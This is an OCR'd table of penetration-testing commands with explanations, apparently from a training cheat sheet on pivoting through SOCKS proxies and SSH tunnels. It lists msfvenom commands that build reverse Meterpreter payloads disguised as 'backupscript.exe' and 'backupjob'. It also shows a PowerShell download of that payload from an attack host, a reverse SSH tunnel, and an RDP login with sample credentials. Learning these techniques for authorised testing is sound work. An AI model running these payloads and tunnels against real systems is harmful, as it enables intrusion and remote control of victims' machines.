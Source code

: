 | `proxychains nmap -v -sn 172.16.5.1-200`                                                                                                                                                                           | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against the hosts in the specified range `172.16.5.1-200` with increased verbosity (`-v`) disabling ping scan (`-sn`).                                          |
| `proxychains nmap -v -Pn -sT 172.16.5.19`                                                                                                                                                                          | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against 172.16.5.19 with increased verbosity (`-v`), disabling ping discover (`-Pn`), and using TCP connect scan type (`-sT`).                                  |
| `proxychains msfconsole`                                                                                                                                                                                           | Uses Proxychains to open Metasploit and send all generated network traffic through a SOCKS proxy.                                                                                                                                                                       |
| `msf6 > search rdp_scanner`                                                                                                                                                                                        | Metasploit search that attempts to find a module called `rdp_scanner`.                                                                                                                                                                                                  |
| `proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123`                                                                                                                                                | Used to connect to a target using RDP and a set of credentials using proxychains. This will send all traffic through a SOCKS proxy.                                                                                                                                     |
| `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`                                                                                            | Uses msfvenom to generate a Windows-based reverse HTTPS Meterpreter payload that will send a call back to the IP address specified following `lhost=` on local port 8080 (`LPORT=8080`). Payload will take the form of an executable file called `backupscript.exe`.    |
| `msf6 > use exploit/multi/handler`                                                                                                                                                                                 | Used to select the multi-handler exploit module in Metasploit.                                                                                                                                                                                                          |
| `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`                                                                                                                                                               | Uses secure copy protocol (`scp`) to transfer the file `backupscript.exe` to the specified host and places it in the Ubuntu user's home directory (`:~/`).                                                                                                              |
| `python3 -m http.server 8123`                                                                                                                                                                                      | Uses Python3 to start a simple HTTP server listening on port `8123`. Can be used to retrieve files from a host.                                                                                                                                                         |
| `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"`                                                                                                                | PowerShell command used to download a file called backupscript.exe from a webserver (`172.16.5.129:8123`) and then save the file to location specified after `-OutFile`.                                                                                                |
| `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN`                                                                                                                                    | SSH command used to create a reverse SSH tunnel from a target to an attack host. Traffic is forwarded on port `8080` on the attack host to port `80` on the target.                                                                                                     |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080`                                                                                                        | Uses msfveom to generate a Linux-based Meterpreter reverse TCP payload that calls back to the IP specified after `LHOST=` on port 8080 (`LPORT=8080`). Payload takes the form of an executable elf file called backupjob.                                               |